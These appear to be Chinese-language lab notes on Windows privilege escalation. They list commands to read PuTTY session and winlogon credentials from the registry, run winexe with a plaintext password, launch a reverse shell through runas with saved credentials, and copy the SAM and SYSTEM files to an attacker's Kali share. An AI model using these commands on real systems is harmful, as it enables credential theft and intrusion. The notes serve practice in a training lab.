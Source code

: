 



### 查詢特定註冊表驗證

```
reg query "HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\BWP123F42"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

```

驗證 PuTTY 軟體的sessions確實有留下 proxy 的密碼






### winexe
是linux運行的 windows系統 管理工具，使用比較簡單，前提是獲取用戶名和密碼，然後連接上被攻擊系統就可以使用。 winexe是通過 文件共享服務 ，在目標系統安裝winexe服並運行。最大亮點是 執行命令完成後，退出會 自動刪除 對應的服務，為了防止被發現

```
winexe -U 'admin%password123' //10.10.235.143 cmd.exe
```



## 密碼 - 保存的信用


### 列出所有已保存的憑據：
```
cmdkey /list
```

* 請注意，已保存“admin”用戶的憑據。如果不是，請運行 C:\PrivEsc\savecred.bat 腳本以刷新保存的憑據。

### 在 Kali 上啟動一個偵聽器，並使用 runas 和管理員用戶保存的憑據運行 reverse.exe 可執行文件：

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```


## 密碼 - Security Account Manager (SAM)



SAM 和 SYSTEM 文件可用於提取用戶密碼哈希值。此VM已將SAM 和 SYSTEM 文件的備份不安全地存儲在 C:\Windows\Repair\ 目錄中。


### 將 SAM 和 SYSTEM 文件傳輸到您的 Kali VM：


```
copy C:\Windows\Repair\SAM \\10.18.70.197\kali\
copy C:\Windows\Repair\SYSTEM \\10.18.70.197\kali\
```

